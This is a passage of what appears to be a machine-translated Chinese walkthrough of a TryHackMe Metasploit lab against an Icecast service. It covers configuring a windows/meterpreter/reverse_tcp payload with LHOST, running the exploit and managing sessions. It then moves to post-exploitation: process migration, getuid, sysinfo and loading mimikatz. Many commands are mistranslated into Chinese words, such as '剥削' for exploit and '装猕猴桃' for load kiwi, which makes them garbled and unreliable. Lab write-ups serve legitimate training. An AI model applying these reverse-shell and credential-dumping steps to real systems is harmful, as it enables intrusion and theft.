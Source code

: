 #7 虽然带有唯一字符串 use 命令非常有用，但这并不是我们想要的利用方式。现在让我们运行命令‘搜索多重/处理器’。控制台最左侧显示在“名称”旁边的列的名称是什么？继续运行命令“use NUMBER _ NEXT _ TO exploit/multi/handler ”,其中数字将显示在最左边的列中(通常为 4 或 5)。这样，我们可以使用我们的搜索结果，而不需要输入我们想要使用的模块的全名/路径。

> #

#8 现在键入命令“使用 NUMBER_FROM_PREVIOUS_QUESTION”。这是使用搜索结果返回的模块的捷径。

> 使用 6

#9 接下来，让我们使用此命令“set PAYLOAD windows/meter preter/reverse _ TCP”来设置有效负载。通过这种方式，我们可以修改我们希望利用的有效载荷。此外，让我们运行这个命令' set LHOST YOUR_IP_ON_TRYHACKME '。你可能需要使用命令' **ip addr** '来检查你的 IP，它很可能是你的 **tun0 接口**。

> set PAYLOAD windows/meter preter/reverse _ TCP
> IP addr
> set LHOST YOUR _ IP _ ON _ TRYHACKME

#10 让我们继续，回到我们以前的利用，运行命令`使用冰铸'再次选择它。

> 使用 icecast

#11 在我们运行我们的漏洞之前的最后一步。运行命令“set RHOST BOX_IP”来告诉 Metasploit 要攻击哪个目标。

> 设置主机盒 _IP

#12 一旦您正确设置了这些变量，现在就可以通过命令“exploit”或命令“run -j”来运行漏洞，将此作为一项任务来运行。

> 剥削

#13 启动后，我们可以通过运行“jobs”命令来检查系统上运行的所有作业

> 工作

#14 在下一个任务中建立连接后，我们可以使用“sessions”命令列出所有会话。同样，我们可以使用命令“sessions -i SESSION_NUMBER”与目标会话进行交互

> 会话-i 会话号

# [任务 6]我们进来了，现在做什么？

现在我们已经有了受害者机器的外壳，让我们看看我们可以利用的几个利用后模块操作！下一节中的大多数问题都可以通过使用“帮助”命令访问的 Meterpreter 帮助菜单来回答。当我们加载更多的模块时，这个菜单会动态扩展。

首先，我们最初的外壳/进程通常不太稳定。让我们继续尝试转向不同的流程。首先，让我们使用命令' ps '列出进程。假脱机服务的名称是什么？

> spoolsv.exe

#2 让我们继续进入假脱机流程，或者至少尝试这样做！我们使用什么命令将自己转移到流程中？因为我们没有足够的权限，所以这在当前是行不通的，但是我们仍然可以尝试！

> 移动

#3 迁移没有成功，让我们找到更多关于系统的信息，这样我们就可以尝试提升。我们可以运行什么命令来查找关于运行我们所在进程的当前用户的更多信息？

> getuid

#4 如何找到关于系统本身的更多信息？

> sysinfo

#5 这可能需要一点谷歌搜索，我们运行什么来加载 mimikatz(更具体地说是 mimikatz 的新版本)，以便我们可以使用它？

> 装猕猴桃
